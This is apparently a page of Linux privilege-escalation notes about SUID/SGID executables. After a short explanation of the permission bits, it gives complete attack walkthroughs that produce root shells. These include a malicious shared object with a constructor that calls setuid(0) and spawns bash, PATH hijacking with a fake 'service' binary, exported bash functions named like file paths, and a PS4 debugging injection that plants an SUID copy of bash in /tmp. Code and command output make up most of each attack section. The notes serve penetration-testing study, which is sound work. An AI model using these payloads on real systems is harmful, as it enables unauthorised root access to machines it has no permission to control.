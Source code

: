 # 8. SUID/SGID Executable

### **SUID**

* is a special file permission for executable files which enables other users to run the file with effective permissions of the file owner.
* When extra bit **“4”** is set to user(Owner) it becomes SUID (Set user ID)
* The permissions to look for when looking for SUID is:
  * `rws-rwx-rwx`

***

### **SGID**

* is a special file permission that also applies to executable files and enables other users to inherit the effective GID of file group owner.
* When bit **“2”** is set to group it becomes SGID (Set Group ID).
* The permissions to look for when looking for GUID is:
  * `rwx-rws-rwx`

***

### Find all the SUID/SGID executables:

`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

***

### A Quick Word on LD\_PRELOAD & LD\_LIBRARY\_PATH

Why we can’t just use the same LD\_PRELOAD and LD\_LIBRARY\_PATH environment variable tricks we used with sudo privilege escalation?

By default, this is disabled in Linux, due to the obvious security risk it presents!

Both these environment variables get ignored when SUID files are executed

***

### Known Exploits

Certain programs install SUID files to aid their operation.

Just as services which run as root can have vulnerabilities we can exploit for a root shell, so too can these SUID files.

Exploits can be found using Searchsploit, Google, and GitHub, in the same way we find exploits for Kernels and Services.

***

### **Shared Object Injection**

When a program is executed, it will try to load the shared objects it requires.

By using a program called `strace`, we can track these system calls and determine whether any shared objects were not found.

If we can write to the location the program tries to open, we can create a shared object and spawn a root shell when it is loaded.

1. Find SUID/SGID files on the target:
   * ```bash
     $ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;2> /dev/null
     ...
     -rwsr-sr-x 1 root staff 9861 May 14 2017 /usr/local/bin/suid-so
     ...
     ```
   * The suid-so file should execute with root user permissions.
2.  Run strace on the SUID file:

    * ```bash
      $ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such	file"
      access("/etc/suid-debug", F_OK) = -1 ENOENT (No such file or 	directory)
      ...
      open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such 	file or directory)
      ```

    ```bash
    - The libcalc.so shared object could not be found, and the program is looking in our user’s home directory, which we can write to.
    ```
3. Create the /home/user/.config directory.
4. Create the file libcalc.c with the following contents:
   * ```c
     #include <stdio.h>
     #include <stdlib.h>
     static void inject() __attribute__((constructor));
     void inject() {
     setuid(0);
     system("/bin/bash -p");
     }
     ```
5. Compile libcalc.c into /home/user/.config/libcalc.so:
   * ```bash
     $ gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
     ```
6. Run the SUID executable to get a root shell:
   * ```bash
     $ /usr/local/bin/suid-so
     Calculating something, please wait...
     bash-4.1# id
     uid=0(root) gid=1000(user) egid=50(staff) groups=0(root) ...
     ```

***

### PATH Variable

The PATH environment variable contains a list of directories where the shell should try to find programs.

If a program tries to execute another program, but only specifies the program name, rather than its full (absolute) path, the shell will search the PATH directories until it is found.

Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to

#### Finding Vulnerable Programs

If a program tries to execute another program, the name of that program is likely embedded in the executable file as a string.

We can run `strings` on the executable file to find strings of characters.

We can also use `strace` to see how the program is executing.

Another program called `ltrace` may also be of use.

Running strings against a file:

```bash
$ strings /path/to/file
```

Running strace against a command:

```bash
$ strace -v -f -e execve <command> 2>&1 | grep exec
```

Running ltrace against a command:

```bash
$ ltrace <command>
```

1. Find SUID/SGID files on the target:
   * ```bash
     $ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;2> /dev/null
     ...
     -rwsr-sr-x 1 root staff 6883 May 14 2017 /usr/local/bin/suid-env
     ***
     ```
   * The suid-env file should execute with root user permissions.
2. Run strings on the SUID file:
   * ```bash
     $ strings /usr/local/bin/suid-env
     /lib64/ld-linux-x86-64.so.2
     ...
     service apache2 start
     ```
   * The file could be trying to run the service program without a full path.
3. We can verify this with strace:
   * ```bash
     $ strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service
     [pid 14395] execve("/bin/sh", ["sh", "-c", "service apache2 start"],
     ...
     ```
4. Optionally, we can also verify with ltrace
   * ```bash
     $ ltrace /usr/local/bin/suid-env 2>&1 | grep service
     system("service apache2 start"
     ```
   * This reveals that the system function is being used to execute the service program.
5. Create a file service.c with the following contents:
   * ```c
     int main() {
     setuid(0);
     system("/bin/bash -p");
     }
     ```
6. Compile service.c into a file called service:
   * `$ gcc -o service service.c`
7. Prepend the current directory (or where the new service executable is located) to the PATH variable, and execute the SUID file for a root shell:
   * ```bash
     $ PATH=.:$PATH /usr/local/bin/suid-env
     root@debian:~# id
     uid=0(root) gid=0(root) groups=0(root) ...
     ```

***

***

### **Abusing Shell Features**

1. we can find shell version and known exploits for instance
   * In Bash versions < 4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.
   * Example
     * Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:
     * ```bash
       function /usr/sbin/service { /bin/bash -p; }
       export -f /usr/sbin/service
       ```
     * Run the suid-env2 executable to gain a root shell:
     * `/usr/local/bin/suid-env2`
2. another abuse that was found in Bash versions 4.3 and below is
   * When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements. we can executable suid executeable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:
   * Example
     * Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:
     * `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2`
     * Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
     * \`/tmp/rootbash -p\`

***
